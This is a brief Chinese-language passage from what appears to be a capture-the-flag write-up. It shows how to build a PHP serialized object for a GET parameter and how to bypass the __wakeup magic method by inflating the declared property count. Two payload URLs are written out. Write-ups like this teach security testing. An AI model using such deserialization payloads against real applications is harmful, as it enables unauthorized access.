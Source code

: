 利用php代码构造出符合要求的代码并输出结果

![1744128684488](image/NSS/1744128684488.png)

得到结果

![1744128728749](image/NSS/1744128728749.png)

尝试利用get方法提交这个结果

```
/?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
发现不可行，源代码中有__weakup（）函数，尝试绕过这个函数，修改属性数量2-->3使得__weakup()函数跳过
/?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
